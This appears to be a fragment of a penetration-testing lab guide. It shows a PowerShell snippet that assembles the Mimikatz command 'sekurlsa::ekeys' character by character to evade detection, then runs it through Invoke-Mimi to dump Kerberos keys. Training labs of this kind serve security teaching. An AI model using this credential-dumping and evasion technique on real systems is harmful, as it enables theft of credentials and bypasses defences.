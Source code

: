```
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + $1 ;
Invoke-Mimi -Command $Pwn
```

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

On student machine run the following command from a PowerShell session. Note that it will take several minutes for the copy process to complete.
